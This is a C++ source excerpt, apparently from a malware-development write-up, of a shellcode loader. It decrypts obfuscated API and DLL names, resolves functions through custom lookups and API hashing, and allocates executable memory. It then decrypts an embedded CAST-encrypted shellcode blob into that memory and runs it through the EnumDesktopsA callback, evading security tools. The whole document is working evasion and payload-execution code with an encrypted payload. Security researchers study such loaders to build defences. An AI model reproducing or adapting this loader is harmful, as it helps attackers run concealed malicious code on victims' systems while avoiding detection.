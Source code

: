 ```cpp
  // decrypt function string
  d((char*)cva, sizeof(cva), secretKey, sizeof(secretKey));
  // allocate memory buffer for payload
  d((char*)kdll, sizeof(kdll), secretKey, sizeof(secretKey));

  wchar_t wtext[20];
  mbstowcs(wtext, kdll, strlen(kdll)+1); //plus null
  LPWSTR k_dll = wtext;

//   HMODULE kernel = GetModuleHandle((LPCSTR)kdll);
  HMODULE kernel = myGM(k_dll);
//   pva = (LPVOID(WINAPI *)(LPVOID, SIZE_T, DWORD, DWORD))GetProcAddress(kernel, (LPCSTR)cva);
  pva = (LPVOID(WINAPI *)(LPVOID, SIZE_T, DWORD, DWORD))myGPA(kernel, (LPCSTR)cva);

  // allocate a single block for execution
  mem_block = pva(NULL, shellcode_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  if (mem_block == NULL) {
    printf("memory allocation failed\n");
    exit(1);
  }

  // decrypt the entire shellcode into the allocated memory
  for (int i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    uint32_t decrypted_block[2];
    memcpy(decrypted_block, shellcode + i * BLOCK_SIZE, BLOCK_SIZE);
    cast_decrypt(decrypted_block, subkeys);
    memcpy((char *)mem_block + i * BLOCK_SIZE, decrypted_block, BLOCK_SIZE);
  }

  d((char*)udll, sizeof(udll), secretKey, sizeof(secretKey));
  HMODULE mod = LoadLibrary((LPCSTR)udll);
  LPVOID addr = getAPIAddr(mod, 121801766);
//   printf("0x%p\n", addr);
  EnumDesktopsA_t myEnumDesktopsA = (EnumDesktopsA_t)addr;

  // execute the shellcode using EnumDesktopsA
  myEnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem_block, (LPARAM)NULL); 
}

int main() {
  unsigned char padded[] = "\x92\x15\x7e\x1b\x46\x4d\xff\xff"
  "\x7d\x55\x52\x41\x61\xcc\x51\x41\x52\x73\x83\x33\x2f\x47"
  "\xd2\x65\x4d\x72\xd9\x32\xdd\x92\x8b\x52\x30\x50\x76\xc3"
  "\xe3\xb6\x3e\x48\x6f\x80\xe7\x74\xca\x8c\xb7\x4a\x89\xcf"
  "\xf1\x65\x42\x9b\xc0\xac\x5a\xe1\x3d\xc3\x26\x8d\x41\xc1"
  "\x46\xf4\xac\x53\x3c\x8f\xed\x52\x10\x26\x1e\x76\x05\x3b"
  "\x20\x3e\x00\x11\x02\xc3\x0f\x05\x3e\x8b\x13\x71\x86\xc0"
  "\x85\x91\x85\xc0\xc1\x50\x76\x8a\x32\xda\x3e\x8b\x3e\x91"
  "\x1e\x0d\xf6\x65\x20\x49\x8e\x91\x29\x62\xf9\x95\xc9\x3e"
  "\x8b\x52\xe3\xc5\x51\x22\xd6\x4d\x6b\x09\x09\xf0\x50\x32"
  "\x41\xc1\x55\x4b\xa1\x74\x68\x80\xe0\x75\xf1\x72\x45\x46"
  "\x75\xb8\x08\x45\x93\xd8\x30\x5d\x6f\x63\x44\x8b\xb9\x22"
  "\x77\x40\x76\xc8\x3e\x41\x3f\x54\x09\x22\x2d\x60\x40\x1c"
  "\xdb\x68\xd5\xb6\xb6\x1a\x04\x88\xbd\x8f\x88\x1f\x40\xa3"
  "\x58\x5e\x70\xc9\x03\x02\xde\x9d\x41\x5a\x19\x2f\x13\xc0"
  "\xee\xa8\xff\xe0\x7b\xc0\xd2\x48\xf9\xce\x8b\x12\xd9\x7d"
  "\xb6\x38\x65\x8d\x49\xc7\x01\x27\x48\x8d\x11\x1d\x48\x8d"
  "\x66\xfb\x4c\x8d\x16\x1b\x4c\x8d\xf3\xa0\x30\xc9\x7a\x8a"
  "\x31\xc9\xf9\x77\x45\x55\x3e\x46\xff\xd5\x56\x36\xa7\x8c"
  "\x88\x2d\xba\xa6\x7c\xde\x19\x3b\x80\x97\x83\xc4\x18\x6a"
  "\xfd\x9c\x1e\xc3\xfb\xe0\x68\xd9\xcb\x2d\x36\xff\x6f\x6a"
  "\x41\x7e\x94\xc4\xa7\xf9\xd5\x4d\x35\x1b\x18\x5a\x71\x2c"
  "\x6f\x77\xed\x5f\x63\x63\x0d\x41\x5e\x3d\x00\x00";
```